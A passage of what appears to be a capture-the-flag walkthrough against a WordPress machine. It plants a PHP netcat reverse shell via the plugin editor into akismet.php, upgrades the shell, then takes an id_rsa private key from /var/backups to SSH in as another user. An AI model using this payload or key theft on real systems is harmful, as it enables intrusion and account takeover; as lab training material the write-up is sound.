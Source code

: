![image](https://github.com/user-attachments/assets/4a6ce176-9419-495b-9c3e-36de6b140545)


## Getting Reverse Shell

Now it is time to add our [reverse shell](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) to the plugin editor, and start listening for the target. 
visit the **plugin editor** and type 

```php
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <attacker_ip> <listening_port> >/tmp/f") ?>
```

![image](https://github.com/user-attachments/assets/54dd53b6-ca90-43be-9e0f-4a57265551c0)
![image](https://github.com/user-attachments/assets/1acacb40-45d8-49bc-9561-26d84c51d6b8)

Start listening for incoming connections, update the script, then go to the **Installed Plugins** and activate the `akismet.php` script.

![image](https://github.com/user-attachments/assets/df071390-ef23-4c98-9806-4b1d347a2678)


When you successfully gain a shell, it is better to run this command 

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
This command upgrades the basic shell to a pseudo-terminal (PTY), which
   - Better command-line editing (arrow keys, backspace, tab completion)
   - The ability to use tools like su, passwd, nano, etc.
   - Better handling of interactive programs.
Follow up with this command

```bash
export TERM=xterm
```

Now you can cleanly use `clear`, `nano`,`vim`, `less`,`man`, and even arrow keys or tab completion more reliably.

![image](https://github.com/user-attachments/assets/15bfa8e7-ebb7-4e06-a282-43dc4178525b)


Cat the content of the `reminder.txt`, it has a reminder to check his backups. The backups on Linux are in this location: `/var/backups`

![image](https://github.com/user-attachments/assets/71cb9c79-7c6c-4063-a6d4-442473874859)


## Privilege Escalation:

We can see there is `id_rsa`, which is the private SSH key for a user on that system. Use it to authenticate the user to remote systems without a password. Copy the id_rsa file and SSH to the Jack machine
